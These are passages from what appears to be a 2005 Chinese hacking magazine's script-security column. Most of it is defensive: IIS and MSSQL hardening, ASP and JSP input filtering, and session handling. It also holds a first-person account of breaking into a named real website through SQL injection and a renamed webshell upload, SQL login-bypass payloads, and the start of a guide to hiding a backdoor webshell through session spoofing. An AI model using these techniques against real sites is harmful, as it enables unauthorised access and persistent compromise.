现在，我们来做一下第二种方法的防范。打开 CMD，先用“net user 用户名 /add”命令建几个 Guest 权限的用户，然后打开 IIS 管理器，选择一个要设置的虚拟机，右键选择属性里的“目录安全性”标签，然后点击上面第一个“编辑”按钮，会出现一个“身份验证方法”的对话框，点“浏览”按钮添加与这个虚拟机相对应、刚刚建的系统用户（如图8所示）。


图8

> **脚本小子：** 建立用户的时候，IIS 里有几个虚拟机就建几个用户，最后用户名和 FTP 账号相同，这样便于管理。

设置好后确定退出。一定要注意，服务器上有几个虚拟机就加几个 Guest 权限的用户，然后一个一个地把系统里自带的那个 Internet 来宾账户用这种方法替换掉。现在我们来设置虚拟目录的权限，打开 iisweb 目录，顺便把 iisweb 目录上的那个系统默认的 Internet 来宾账户删掉，然后一个一个地设虚拟目录……第二种方法虽然繁琐点，但是要比第一种方法安全。当你都设好后用 WebShell 木马检测一下，会发现想跨站入侵已经不可能了。

现在还有好多空间服务器存在这种问题，还是希望国内的安全意识加强些。好了，就写到这里吧，如果有什么问题可以到《黑客防线》的官方论坛来和我探讨。

## 让ASP自动防护脚本注入


文/图 郭宇强

- 适合读者：脚本攻击爱好者、站长
- 前置知识：无

SQL Injection 可以说是当前网络环境中的主流攻击手段之一，如何有效防止脚本注入一直困扰着广大程序设计者。在程序设计中，往往一个小的疏忽就可能导致系统被注入，甚至带来严重的后果。对于脚本注入，总结起来有以下两种情况：过滤策略考虑不周；过滤变量不全。本文就是针对上述问题而提出的一种通用的解决方案。

#### 相关知识

在 ASP 程序数据传送中，客户端（Browser）向服务器提交请求有3种方法：HEAD、GET 和 POST。通过 HEAD 方法，服务器只向客户端返回网页的头信息，而不是数据本身。实际上，数据传送只通过 GET 和 POST 这两种方法，即在 Form 表单中 Method 属性值（缺省为 GET）。假如使用“Get”属性，浏览器将该值绑定在页面所有控件上，成为一个查询字符串，并附在被请求页面的 URL 上（经过 URL 编码）。当这个请求到达 Web 服务器时，其值由 ASP 的 Request.QueryString 集合提供。假如设置 Method 属性为“Post”，浏览器将值包装进发送服务器的 HTTP 报头中，通过 Request.Form 集合提供给 ASP。

经 URL 编码的字符串长度存在一定的限制，其上限值为 1024 字节，因此，过长的字符串可能会引起溢出和字符被截掉。同时，查询字符串出现在浏览器的地址栏和所有保存的链接和收藏夹中。不仅如此，它还显露了通过 Web 服务器时在 HTTP 请求中不想显示的值，它也可能出现在你的服务器和其他路由服务器的日志文件中；而通过 POST 传递的数值（在 HTTP 请求报头中的值）是不会出现在日志文件中的。

#### 过滤原理

通过以上的介绍，我们已经知道服务器获取客户端的数据是通过 Request.QueryString 集合（GET 方法）和 Request.Form 集合（POST 方法）来实现的。所以，如果我们在程序中检查 Request.QueryString 集合和 Request.Form 集合的值，并过滤掉特殊字符，就达到了字符过滤的目的，而不必针对具体的变量编写程序。实现方法如下：

```vb
If Request.Form<>"" Then
    For Each Data In Request.Form
        ' 对Data应用过滤策略，当出现非法字符时执行相应的处理程序
    Next
End If
If Request.QueryString<>"" Then
    For Each Data In Request.QueryString
        ' 对Data应用过滤策略，当出现非法字符时执行相应的处理程序
    Next
End If
```

#### 通用系统解决方案

由于 SQL 注入是发生在执行 SQL 语句的时候，也就是说发生在对数据库操作的页面，所以我们在有数据库操作的页面将从客户端传递来的数据进行过滤，就可以全面防止 SQL 注入。因此，只需在数据库连接的文件（如 conn.asp）应用过滤策略，就可以达到全面过滤的目的。

在实际应用中，我们将过滤策略文件包含到数据库连接的文件中即可。我们还可以将过滤策略（非法字符）存放在数据库中，实现过滤策略的灵活管理。同时，可以针对特定的过滤策略指定相应的处理过程：当出现非法字符时，是停止程序运行还是后台记录，或者将程序导向错误提示页面；对于后台记录数据，管理员可以查看系统日志，并根据实际情况对访问 IP 进行封锁；对于 IP 封锁，也可以制定相应策略，对拨号账号实行临时封锁（如12小时），对固定 IP 实行长期封锁等等。你学会了吗？

脚本小子：www.it.com.cn，一个以“IT世界，轻松一点”为理念的新兴站点。从2004年6月份到9月份，网站排名出现了奇迹般的上升，可以说用疯狂来形容毫不为过。网站从6月28号上线，到9月份，将近4个月的时间，流量增长到300万 PV，排名从6万多名增长到最高270多名……发展速度如此快的一个站点，它的安全系数如何呢？是密不透风，还是门户大开？请看本文……

- 适合读者：脚本入侵爱好者、网络管理员
- 前置知识：无

## 网站火了，黑客来了

## 对某IT资讯网站的安全测试

文/图 WB

不知不觉就2005年了，2004年是往事不堪回首，竟然接连掉了两部手机！于是偶决定再不用手机，但发现没手机的日子真不好过！还是买新的吧，于是去网上转转，也就有了这次的入侵。首先来到 www.it.com.cn，看商品的时候，注意看了看网站的结构：ASPX 后台生成静态的 HTML，但不时有 ASP 的连接在其中。看完需要的内容后，习惯性地选择查看源文件，然后查找 ASP，发现很多都是下载的链接，去下载站看看。

……创建的网站？弱口令比比皆是（后面有提到），再一次让我感受到国内的网络安全任重道远，如图2所示。


下载软件的连接没发现什么问题，看到还有“软件搜索”的项目，地址是：`dlbe.it.com.cn/search.aspx?cnx=12312`，在后面加上单引号，出现了未闭合错误，看来可以注入，如图1所示。


接下来该查找后台了，随手在 URL 后面加了个“admin”，不抱任何希望。在我的印象里，一般大型网站的后台都很隐藏，有时候猜半天都猜不到——结果让我大跌眼镜，这次竟然直接就出来了后台登录框，如图3所示。真的没话说了，很顺利地就进入后台，功能很少，如图4所示。


## 脚本攻击防范 / SCRIPT ATTACK DEFENCE

（栏目编辑）脚本小子 / scriptsboy@hacker.com.cn


有限制，于是把海洋2005改成 cmd.cer 上传，再次无语竟然成功！但访问的时候稍微心安一点，无法执行，可能是设置了目录权限，如图5所示。


旁边还有修改功能，老天爷帮忙啊！把文件名和虚拟路径给改了，如图6所示。


再次在地址栏输入我们的马儿地址，这次进去了，如图7所示。


原来这个网站把 IIS 的虚拟路径指向局域网的一台电脑中，本身做备份和数据库。后面的事更让人惊奇：ServUdaemon.ini 里的密码竟然是明文存放的，而 ServUadmin.ini 也没有管理员密码……这次入侵就算结束了，删除所有后门/木马，给管理员发封电子邮件，走人！

其实这只是这个网站漏洞的冰山一角，很容易就能找到其他评论和商品的注入点，而且都是另外的服务器。由此可知有多么危险！事后对它的服务器集群扫描的时候，X-Scan 报告 FTP 和 IIS 存在的溢出漏洞……希望管理员早点补上吧……

脚本小子：JSP（Java Server Pages）是开发 Web 动态网站快速有效的工具，是企业应用编程中的一部分。它基于强大的 Java 语言，具有良好的伸缩性，与 Java Enterprise API 紧密集成。本文试图向读者阐述建立 JSP 论坛的方方面面。

- 适合读者：Web 开发者，JSP 程序员
- 前置知识：JSP 语言


作为建立动态网页的一种 Web 编程技术，Java Server Page（JSP）开始得到越来越多的应用。不经意间，我们会发现很多动态网页的后缀变成了“.jsp”。承袭 Java 语言的各种优势，JSP 也开始被很多程序员所青睐。

- 1. 编写源代码（*.java 文件）；
- 2. 源代码经过编译（javac.exe 命令），产生类文件（*.class）；
- 3. 大的软件包包括许多 Class 文件，并为这些文件撰写清单文件（manifest.mf）；
- 4. 将类文件和 Manifest.mf 一起打包（jar.exe 命令）生成包裹文件（*.jar）；
- 5. Java 文件易于被反编译，通常还需要对完成文件进行混淆（obfuscate）。

这个典型过程深刻地反映于常见的 JSP 论坛或其他 JSP 应用程序中。如何探索 Java Servlet 及 JSP 的安全之道呢？细心的朋友会发现，一个 Web 应用程序可拥有多种资源，在没有保护措施的情况下，经常会有许多敏感信息在开放性网络上传输。

### 从一个小测试谈到一个小知识

记得还是去年，刚到据说是高手云集的威威公司上班的时候，一个新到的同事给我讲他花了半天时间编写，并做了很长时间的实践，写了个关于攻击 .jsp 页面的程序。下面我把具体的实现过程和大家分享一下。测试平台是 Tomcat，当然，版本有点低。他的目的只是想证实一下他的某些想法。首先，他在 Tomcat 的 Web 目录下建立了一个 Hello.jsp 文件，内容是：

```jsp
<%out.print("hello");%>
```

通过 IE 的正常请求地址为 `http://localhost:8080/examples/jsp/hello.jsp`，显示结果为 hello。然后开始具体的攻击测试，发出的请求地址为 `http://localhost:8080/examples/jsp/////////hello.jsp`，浏览器上显示编译错误，错误原因为 `500 java.lang.NullPointerException`。恢复正常请求后问题仍出现，换机器访问也依然如此。虽然这个问题有些弱智，不过他的目的达到了，即找出 `.jsp` 流程中存在的一些问题。

需要指出的是，虽然是一门网络编程语言，JSP 和 PHP、ASP 的工作机制还存在很大区别。首次调用 JSP 文件时，JSP 页面在执行时是编译式，而不是解释式的。首次调用 JSP 文件其实是执行一个编译为 Servlet 的过程；当浏览器向服务器请求这个 JSP 文件时，服务器将检查上次编译后 JSP 文件是否有改变，如果没有改变就直接执行 Servlet，而不用再重新编译。

> Servlet 是用 Java 编写的 Server 端程序，它与协议和平台无关；Servlet 运行于 Java-enabled Web Server 中，可以动态地扩展 Server 能力，并采用请求—响应模式提供 Web 服务。Servlet 的主要功能在于交互式地浏览和修改数据，生成动态 Web 内容。

一般来说，常见的 JSP 安全问题有源码暴露、插入特殊字符串引起源码暴露、路径权限问题、远程程序执行类漏洞、数据库漏洞及操作系统漏洞等。为了突出 JSP 的安全问题，本文将结合一些较流行的 JSP 论坛分类阐述并提出解决建议。

### 论坛用户管理缺陷

为了加强实战效果，我们可以到 `http://down.chinaz.com/S/5819.asp` 下载一个典型的论坛代码。根据提示，数据源名称为 yyForum，用户名为 xyworker，密码 999。分析后可发现，用户管理页面是 `user_manager.jsp` 文件，代码开头有一个 if 限制条件：

```jsp
<%
if ((session.getValue("tUserName")==null)||(session.getValue("tUserClass")==null)||(!session.getValue("tUserClass").equals("系统管理员"))) {
    response.sendRedirect("err.jsp?id=14");
    return;
}
%>
```

其中 `Session.getValue` 表示检索 Session 值；`sendRedirect()` 执行后地址栏会改变，相当于客户端再次发起一个 GET 请求。下面再看修改用户信息文件 `modifyuser_manager.jsp` 的典型代码：

```jsp
<%@page contentType="text/html; charset=gb2312" language="java" import="java.sql.*,java.util.*" %>
<jsp:useBean id="yy" scope="page" class="yy.jdbc"/>
<%String User_Name,User_Password,sql,User_Sign;%>
<%
User_Name=request.getParameter("name");
User_Password=request.getParameter("password");
User_Password=yy.ex_chinese(User_Password);
...
User_Sign=request.getParameter("sign");
User_Sign=yy.ex_chinese(User_Sign);
Connection con=yy.getConn();
Statement stmt=con.createStatement(ResultSet.TYPE_SCROLL_INSENSITIVE,ResultSet.CONCUR_READ_ONLY);
sql="update 用户表 set 用户密码='"+User_Password+"', ... ,签名='"+User_Sign+"' where 用户名='"+User_Name+"'";
stmt.executeUpdate(sql);
%>
```

#### 脚本攻击防范

SCRIPT ATTACK DEFENCE

栏目编辑 / 脚本小子 / scriptsboy@hacker.com.cn

```jsp
out.println("<font size=2 color=blue>正在处理你的用户信息，请稍后...</font><meta http-equiv='refresh' content='2;url=user_manager.jsp'>");
%>
<jsp:include page="inc/online.jsp" flush="true"/>
```

```java
= '" + userName + "' and userpassword = '" + userPassword + "'";
ResultSet rs = stmt.executeQuery(checkUser);
if(rs.next())
    response.sendRedirect("SuccessLogin.jsp");
else
    response.sendRedirect("FailureLogin.jsp");
```

看看这个文件，我们就好像看到了一个简单的教学文件。现在，假设管理员提交如下地址，即 `http://www.51dz.net/bbs/modifyuser_manager.jsp?modifyid=51`，需要查看、修改 ID 为 51 的用户资料（管理员默认的用户 ID 为 51），问题就出来了。同样地，我们可以通过搜索引擎得到如下地址，如图1所示。


很明显，这个用户管理文件缺乏认证，即使是普通用户，甚至包括这些搭不上边的“游客”，也可以直接提交上述请求，从而将其资料一览无余。更让人动心的是，密码也是明文存储的。`http://www.51dz.net/bbs/modifyuser_manager.jsp` 同样是大开山门，直到恶意用户把数据更新的操作执行完毕，重定向到 `user_manager.jsp` 的时候，管理员才会看见那个显示错误的页面，但这个时候为时已晚，更谈不上“亡羊补牢”了。

类似的错误存在于很多 JSP 的站点上。面对这样的论坛，我们能够放心地说“安全”吗？解决之道有很多，不过最基本的要求是为每个需要身份认证的地方加上身份认证。如果借用别人的代码，一定要对涉及用户管理、密码认证等重要文件修改一下。照搬虽然省事，但代码毫无安全性可言。

再就是 SQL 注入的问题。比如这个典型的问题：“昨天公司的数据库被人 SQL 注入，9 万条记录都被 update 了……”不过，这和 JSP 程序没有什么必然关系。SQL 注入漏洞可谓“千里之堤，溃于蚁穴”，这种漏洞在网上极为普遍，即便是 JSP 程序也不能幸免。

```java
Statement stmt = conn.createStatement();
String checkUser = "select * from login where username ..."
```

针对这种情况，如果数据库里存在一个名叫“Tom”的用户，那么在不知道密码的情况下，至少有下面几种方法可以登录。

- 用户名：Tom；密码：`' or 'a'='a`
- 用户名：Tom；密码：`' or 1=1/*`
- 用户名：`Tom' or 1=1/*`；密码：（任意）

### 用户退出的安全问题

最近，在研究一些 JSP 论坛的代码时，我发现在一个有密码保护的 Web 应用中，正确处理用户退出过程并不仅仅只需调用 `HttpSession` 的 `invalidate()` 方法。这样做会存在一定的安全隐患：用户退出后如果使用浏览器后退按钮，缓存页面可能再次呈现。

许多 Web 应用强迫用户退出时关闭整个浏览器，这样用户就无法点击后退按钮了。这样的问题在论坛等 JSP 程序中也十分常见，有什么好的解决方法吗？查阅并综合一些资料后，我对实际应用的解决方法进行了大致了解。

- 1. 用户通过浏览器访问页面；
- 2. Web 应用展现一个登录页面，要求用户输入有效验证信息；
- 3. 用户输入用户名和密码并通过验证后，允许访问授权区域；
- 4. 用户想退出时点击退出按钮，应用要求确认，确认后 Session 结束并重定向到登录页；
- 5. 第二个用户到同一台电脑前点击后退，不应看到上一个用户访问过的页面，应用应停留在登录页面。

实际应用中，比较典型的例子是：`login.jsp` 包含用户输入用户名和密码的 Form，`logout.jsp` 包含要求用户确认是否退出的 Form，`loginAction.jsp` 和 `logoutAction.jsp` 作为控制器分别包含登录和退出代码。典型的解决途径是引入自定义的安全实现机制。

提供的认证信息是有效的，登录动作往 `HttpSession` 对象中注入某个对象。`HttpSession` 存在着注入的对象则表示用户已经登录。`Logout Action` 是退出动作，它包含了简单的删除用户名以及对用户的 `HttpSession` 对象调用 `invalidate()` 方法。比较典型的代码如下：

```java
//...
session.removeAttribute("User");
session.invalidate();
//...
```

另外，为了使登录和退出动作真正发挥作用，所有受保护的 JSP 页面都应该首先验证 `HttpSession` 中是否包含了用户名，以确认当前用户是否已经登录。如果 `HttpSession` 中包含了用户名，也就是说用户已经登录，Web 应用则将剩余的 JSP 页发送给浏览器，否则 JSP 页将跳转到登录页 `login.jsp`。

### 阻止浏览器缓存

使用上述方法后，还是存在一定的问题。当在浏览器上点击后退按钮时，默认情况下浏览器不是从 Web 服务器上重新获取页面，而是从浏览器缓存中载入页面。基于 Java 的 Web 应用并未限制这一功能，在基于 PHP、ASP 和 .NET 的 Web 应用中也同样存在这一问题。在用户点击后退按钮后，“从浏览器到服务器再从服务器到浏览器”这个 HTTP 回路并没有建立，仅仅只是用户、浏览器和缓存进行了交互。

如此看来，就好像一枚硬币有两面一样，缓存的确提供了一些便利，但通常只在使用静态的 HTML 页面或基于图形或影像的页面时你才能感受到；而另一方面，Web 应用通常是基于数据的，数据通常是频繁更改的。与从缓存中读取并显示过期的数据相比，提供最新的数据才是更重要的！

这就要看看怎么用缓存了。查阅资料，我看到 HTTP 头信息 `Expires` 和 `Cache-Control` 为应用程序服务器提供了一个控制浏览器和代理服务器上缓存的机制。HTTP 头信息 `Expires` 告诉代理服务器它的缓存页面何时将过期；HTTP 1.1 规范中新定义的头信息 `Cache-Control` 可以通知浏览器不缓存任何页面。当点击后退按钮时，浏览器重新访问服务器以获取页面。通过使用 HTTP 头信息的 cache 控制，我们可以对页面进行保护，将如下代码适当处理即可：

```java
//...
response.setHeader("Cache-Control", "no-cache");
response.setHeader("Cache-Control", "no-store");
response.setDateHeader("Expires", 0);
response.setHeader("Pragma", "no-cache");
String userName = (String) session.getAttribute("User");
if (null == userName) {
    request.setAttribute("Error", "Session has ended. Please login.");
    RequestDispatcher rd = request.getRequestDispatcher("/login.jsp");
    rd.forward(request, response);
}
//...
```

上面代码的意思是：通过设置头信息和检查 `HttpSession` 中的用户名，确保了浏览器不缓存页面。同时，如果用户没有登录，受保护的 JSP 页面将不会发送到浏览器，取而代之的将是登录页面 `login.jsp`。实际应用中，如果要求特别高，还可以记录最后登录时间，即记录每个用户的最后登录时间。对于采用关系型数据库安全域来说，可以通过在某个表中加上 `lastLogin` 等字段轻松实现。此外，为了使代码更简练有效，一些冗余代码可以剔除。比如把这些加强安全的代码写到一个单独的 JSP 页中，通过 `<jsp:include>` 标签在其他页面也可以引用。这样问题就可以比较简单地解决了。

### 其他 JSP 安全编程知识

当然，JSP 开发中的安全解决办法还是很多的，需要我们根据实际情况来“量体裁衣”使用。为了扩大读者的视野，下面列举了一些常用的安全性实现方式。

- 1. **Declarative Security**

Declarative Security 指的是表达一个应用的安全结构，包括角色、存取控制，和在一个应用的外部表单所要求的验证。在 Web Application 中，部署描述符是实施 Declarative Security 的一种主要工具。部署者把 Application 所要求的逻辑完整性映射为在特定运行环境下的安全策略。在运行时，Servlet Container 使用这些策略来强制验证。

- 2. **Programmatic Security**

当 Declarative Security 不能够完全表达一个 Application 的安全模型时，就可以使用 Programmatic Security。Programmatic Security 包括 `HttpServletRequest` 接口的下列方法：`getRemoteUser` 方法返回经过客户端验证的用户名；`isUserInRole` 向 Container 的安全机制询问一个特定用户是否在一个给定的安全角色中；`getUserPrincipal` 方法返回一个 `java.security.Principal` 对象。这些 API 根据远程用户的逻辑角色让 Servlet 去完成一些逻辑判断，也可以让 Servlet 去决定当前用户的主体名字。如果 `getRemoteUser` 返回 `NULL` 值（这意味着没有用户被验证），那么 `isUserInRole` 就总会返回 `false`，`getUserPrincipal` 总会返回 `NULL`。

- 3. **Roles**

一个 Role 就是由 Application Developer 和 Assembler 所定义的一个抽象逻辑用户组。当一个 Application 被部署的时候，Deployer 就把这些角色映射到运行环境中的安全认证，例如组或规则。Servlet Container 能够为规则执行一些声明式或编程式安全，这些规则与调用这些 Principal 的安全属性输入要求相关。例如当 Deployer 把一个安全角色映射为操作环境下的一个用户组，调用 Principal 所属的用户组就从安全属性中获得。如果 Principal 的用户组与在操作环境下的用户组相匹配，那么 Principal 就是一个安全角色。

名映射为一个在安全方针域中的 Principal 名时，调用 Principal 的该 Principal 名就被从安全属性中提取出来。如果两者相同的话，调用的 Principal 就是安全的。

#### 4. Authentication

一个 Web 客户端能够使用下面的一种机制来对 Web 服务器验证一个用户：HTTP Digest Authentication、HTTPS Client Authentication、HTTP Basic Authentication、HTTP Based Authentication。

#### 5. HTTP Basic Authentication

HTTP Basic Authentication 是一个定义在 HTTP/1.1 规范中的验证机制。这种机制是以用户名和密码为基础的。一个 Web Server 要求一个 Web Client 去验证一个用户。作为 Request 的一部分，Web Server 传递 Realm 的字符串，用户就是在它里面被验证的。

> Basic Authentication 机制的 Realm 字符串不一定反映任何一种安全方针域。Web Client 得到这些用户名和密码，然后把它传递给 Web Server。Web Server 然后在一个特定的领域验证这些用户。由于密码是使用一种 64 位编码来传递，而且目的 Server 没有验证，所以 Basic Authentication 不是一种安全的验证协议。

#### 6. HTTP Digest Authentication

HTTP Digest Authentication 根据用户名和密码验证一个用户，然而密码的传输是通过一种加密形式进行的，这就比 Basic Authentication 所使用的 64 位编码形式传递要安全得多。由于 Digest Authentication 当前不被广泛使用，Servlet Containers 不要求支持它，但是鼓励去支持它。

#### 7. HTTPS Client Authentication

使用 HTTPS（HTTP over SSL）的终端用户验证是一种严格的认证机制。这种机制要求用户去处理公共密钥证书（Public Key Certification，PKC）。当前，PKC 在 e-commerce 应用中是有用的，不是所有 J2EE 的 Servlet Containers 都支持 HTTPS 协议。

#### 8. Server Tracking of Authentication Information

就像映射在角色中的安全标识一样，运行环境是环境的说明而不是应用的说明。在 Web Application 的部署环境创建一个登录机制和策略，对部署在同一个 Container 的 Application 能够使用同样的验证信息来代表这些 Application 的 Principal；仅仅当通过安全策略域时要求用户重新验证。因此，一个 Servlet Container 要求在 Container 层来跟踪这些验证信息，而不是在 Application 层。允许一个经验证的用户访问使用其他资源的 Application，这些资源由受同样安全标识限制的 Container 管理。

综上所述，JSP 论坛的安全问题是一个没有止境的过程。随着 JSP 的蓬勃兴起，我们也将面对这些问题。对于 JSP 的安全爱好者来说，一个好的建议就是多看安全文章，这些安全文章一般都会有详细的信息，如软件的版本号、漏洞原因等等，最重要的是还附带了解决办法或者补丁下载链接，如国内的安全站点 `www.cnns.net` 或者国外的 `www.securityfocus.com` 站点。另外一个好的建议就是多装补丁程序，访问自己所使用的软件公司主页，从上面获得最新的补丁程序。

适合读者：脚本攻击爱好者，网站管理员  
前置知识：Windows IIS 服务器基本管理经验

### 系统设置：搞定脚本安全

文/图 无名

在 2004 年，脚本漏洞层出不穷，无数网站主机因脚本漏洞被攻破。为防御此类攻击，笔者经过一段时间的尝试，将心得总结成文，以飨广大有此需求的读者（本文测试环境为 Windows Server 2003，IIS 6.0，MS SQL Server 2000）。

#### 用户权限设置

外部客户端在访问本机网站时，是以 IUSR_SERVERNAME 用户（以下简称 IUSR 用户）的权限执行所有操作的。所以为了保证系统安全，我们必须对该用户权限作一些限制。

> IUSR_ServerName 是 Web 访问者使用的系统默认账号，系统表示为 Internet 访问用户。当 Web 服务器不需用户登录就能访问数据库时，它实际上是使用 IUSR_ServerName 用户身份来访问数据库。IUSR_ServerName 是在安装 IIS 时创建的用户，默认情况下，“启用 Windows 账户同步”是选中的。

首先，要删除 Everyone 对系统所有卷的访问权限。由于 Everyone 是各用户组/权限设置的父对象，所以在删除 Everyone 权限之前，要取消子对象对父对象权限的继承。方法是在所设置目录的“属性”对话框的“安全”选项卡中点击“高级”按钮，取消“允许父对象将其权限传播到该对象及其子对象”的选定（如图1所示）。这时系统会提示选择是否将父对象的权限复制给子对象。


笔者建议大家选择复制。这样的好处就是以后不必重新设置管理员用户的权限。

接着就是对 IUSR 用户作设置。在网站数据库（Access）、上传文件所在目录，我们须赋予其“列出文件目录”“读取”和“写入”权限（如图2所示）；而在其他无需通过 IIS 进行写操作的目录，我们只须给予其“列出文件目录”和“读取”权限即可（如图3所示）。到此，对用户权限的设置结束了。


#### 脚本执行设置

这个就简单多了。网站目录大体分两类：一类保存着我们的脚本文件，另一类保存着非脚本文件，例如网站数据库、上传的图片等等。因此，具体设置也就有两种：前一类允许执行脚本文件，后一类禁止执行其中的脚本文件。设置方法：在 IIS 服务管理器中右键点击所需设置目录，在“目录”选项卡里，对“执行权限”进行设置，前一类设置成“纯脚本”，后一类设置成“无”即可。

如图4所示：


#### 数据库防下载设置（针对 Access 数据库）

上面的设置已禁止数据库文件中的 ASP 脚本执行，大家也许会想：“那以前用 ASP 语句出错的方法防止数据库被下载不就不行了吗？”别急，我们这次用筛选器来进行数据库的防下载保护。

具体设置方法如下：在 IIS 服务管理器中，进入被设置网站的属性框，点击“主目录”→“配置”→“添加”（上面那个），扩展名自然就输入数据库文件的扩展名了，上面的可执行文件项就随便填一个 EXE 文件就行了，点“确定”就完成了设置（如图5所示）。读者可以试一下，将会出现这种结果：“无法找到该页”（如图6所示）。


#### MSSQL 数据库设置

由于 MSSQL 数据库服务是以 SYSTEM 权限运行的，所以通过 MSSQL 的注入攻击往往较容易取得 ADMIN 权限，因此对它的设置也是脚本安全防护中的重中之重。首先自然是用户设置。大家都知道 “SA” 是一个拥有极高权限的用户，所以脚本系统在连接 SQL 数据库的时候一定不要使用 “SA”，我们应该建立一个“database ...”

#### 脚本攻击防范

creator 级的新用户，只赋予其对网站数据库的 DB_OWNER 权限，用它来连接数据库可以很好地保证系统的安全。

> SQL Server 的用户 sa 是个等同 Administrators 权限的角色，拿到了 sa 权限，几乎肯定可以拿到主机的 Administrator。SQL Server 默认用户 sa 的权限非常巨大。

接着就是对 SQL 扩展存储过程进行配置了。大名鼎鼎的 xp_cmdshell 和 xp_dirtree 都是其中成员，还有 sp_makewebtask 等。对这些扩展存储过程的处理原则就是“删”。

```sql
exec master..sp_dropextendedproc '被删除的扩展存储名'
```

删除方法是在 SQL 查询分析器中执行上述命令即可（如图 7 所示）。

- sp_makewebtask
- xp_cmdshell
- xp_dirtree
- xp_fileexist
- xp_terminate_process
- sp_OAMethod
- sp_OACreate

还有以 xp_reg 开头的好多存储过程，限于篇幅不一一列出。

> 存储过程就像编程用的函数，内容是一系列 SQL 语句和流程控制语句。扩展存储过程与普通存储过程执行方式相同，但能执行许多数据库之外的操作。

虽然我们做了这么多设置，但也不要忘记保持服务器安全的重中之重：及时打补丁。系统漏洞不是通过几个设置就能轻松堵上的。

**脚本小子：** 现在有很多使用脚本扫描器的黑客爱好者整天扫来扫去。本文作者给出了编写 ASP 程序防止骚客的一些经验技巧，虽然不难，但很实用。适合读者：脚本入侵爱好者、ASP 程序员。前置知识：ASP 基本语法。

### 程序员的反击——利用 ASP 语句实现页面访问保护

文/图 曾经心痛

或许是 ASP 的语言比较容易懂吧，网络发展到今天，基于 ASP 的网站占了绝大部分。正因为 ASP 通俗易懂，所以它产生的安全问题也比较多。几年前的注入攻击到现在的上传漏洞，ASP 漏洞层出不穷。我们有必要在重要的 ASP 页面里做出一些安全检测。

#### 第一招：防止重要文件或文件夹被探测

现在网上有一种路径扫描器，它可以有效地扫描到网站文件或路径，特别是数据库路径。扫描器通常根据服务器返回状态码来识别目录是否存在：403 表示存在但权限不足，404 表示目录不存在。服务器返回的状态码为“200”或非“404”的代码则认为页面存在。虽然这方面的防护在自己的服务器上比较容易，但是使用虚拟主机的朋友没有办法接触到服务器，无法使用这个方法，有没有其他办法呢？其实在 ASP 语句中，有一条语句是用来返回状态码的，这就是 `Response` 对象的 `Status` 方法。

```asp
<%
Response.Status="404 File Not Found"
Response.End
%>
```

将它保存为服务器的默认文档，这样才被服务器作为默认读取并执行。如图 2 所示是本地测试的结果。怎么样？这种方法再也不怕那些网站路径扫描了吧！

#### 第二招：防止并检测暴库者

这种方法是针对用“%5c”攻击数据库连接的脚本文件的。绝大多数的数据库连接文件由于没有用 `On Error Resume Next` 来容错，所以当以“%5c”进行提交时，脚本内的 `Server.MapPath` 函数在存在“\”字符串时就会出错，报告路径不合法。

大家可能知道在 ASP 里有一条语句是 `Request.ServerVariables("URL")`，它可以取出用户提交的 URL。根据连接文件被引用时 URL 的差异，可以配合条件语句判断用户提交的 URL 是否合法。

```asp
<%
logurl=Request.ServerVariables("URL")
' 取得用户提交的URL
if instr(logurl,"\\")<>0 then
  ' 这里可以记录入侵者的IP
end if
%>
```

图 3 是我写的一个记录入侵者 IP 的抓图，比较实用。笔者经验肤浅，写出以上这两招，但对付那些工具黑客颇有成效，如果有什么好的方法欢迎讨论。

适合读者：脚本入侵爱好者、脚本程序员、网管。前置知识：ASP 代码阅读能力。

### 利用 Session 欺骗构造最隐蔽的 WebShell

不知不觉 LM 团伙“看黑防”已有两个春秋了。看了《DreamWeaver 引发网络危机》一文后，发现其中方法存在一些问题，并不像想象中那样容易发挥。下面就与大家一起讨论一下 Session。

既然是谈 Session 欺骗，那么就先来看一下 Session 到底是什么，它是怎么工作的。在 ASP 中，服务器能通过 Session 对象区分不同浏览器，记录浏览器端变量并存储信息。它与 Cookie 类似，但 Cookie 保存在客户端，而 Session 保存在服务器端，并把包含会话标识符的特殊加密版本的一个 Cookie（会话标识号）发送给客户端。由于在 Cookie（会话标识号）中没有提供 Expires 值，所以当浏览器关闭时，这个会话标识号也就消失了。

每当用户访问这个 ASP 网站时，ASP 都会通过浏览器查找这个会话标识号，命名为 ASPSESSIONIDxxxxxxxx，其中每个 x 是一个字符。我们在抓取侦包时能看见：

```http
Set-Cookie: ASPSESSIONIDSQBBQODS=GCINNKPDIGDNPEAOGLDFFFEM; path=/
```

但是这个 Cookie（会话标识号）不会出现在 `Request.Cookies` 或 `Response.Cookies` 集合中，虽然 ASP 把它隐藏起来，但仍保存在浏览器上。对于每个 ASP 网页的请求，ASP 都要查看该值。这个 Cookie（会话标识号）包含的值，指明了这个用户的会话。因此，相应的 Session 对象（该对象已经在内存中，并且一直包含所有在前一页面请求过程中进行操作的值）的内容可以移交给 ASP 网页中的脚本。也就是说，浏览器端拥有的是服务器分配的一个会话 ID 号，当我们有请求的时候，服务器可以通过这个 ID 号查找相应 Session 对象的值，也就实现了区分不同的浏览器。

#### 利用

文笔不好，不知道大家从前面的原理部分是否对 Session 有了一定的认识。现在我们来看《DreamWeaver 引发网络危机》一文是如何利用 Session 会话的。

已有某网站 abc.com，下有登录页 Login.asp，成功登录后转向可以看到敏感信息的 ok.asp（设有访问限制，验证通过则显示），否则转向 Fail.asp。

在该文中，作者是想先构造一个 hack.asp 的网页，通过浏览该网页，建立 Session 会话，并设置一下 Session 验证时所需要的值，然后直接在地址栏输入登录以后的网页 ok.asp。由于 ok.asp 是通过 Session 来验证的，所以作者认为这样能成功。可是，通过前面的分析我们知道，如果 ok.asp 和 hack.asp 不在同一台服务器上，这种攻击是无法实现的。因为 Session 对象的值都是保留在服务器端，不可能像作者所说的那样，让 ASP 执行并在 IE 中留下 Session 值，IE 所拥有的不过是一个 Session 的会话标识号。如果我们在本机或其他服务器浏览了 hack.asp，设置的验证值是在 hack.asp 所在的服务器上，但是在 ok.asp 所在的服务器上并没有设置相应的验证值，就连 Session 会话都没有建立，又如何通过验证呢？可见如果 ok.asp 和 hack.asp 不在同一台服务器上，就不会引发网络危机了。

但是我们能通过这种 Session 欺骗的方法在入侵后给自己留一个不易查杀的后门！下面就以 MyPower 动力 3.5 为例给大家演示，如何通过 Session 欺骗来达到直接登录后台目的。

我们先来看一下动力的源代码，在 Admin_ChkPurview.asp 中 Session 的验证：

```asp
AdminName=replace(session("AdminName"),"'","")
if AdminName="" then
    call CloseConn()
    response.redirect "Admin_login.asp"
end if
sqlGetAdmin="select * from Admin where UserName='" & AdminName & "'"
```

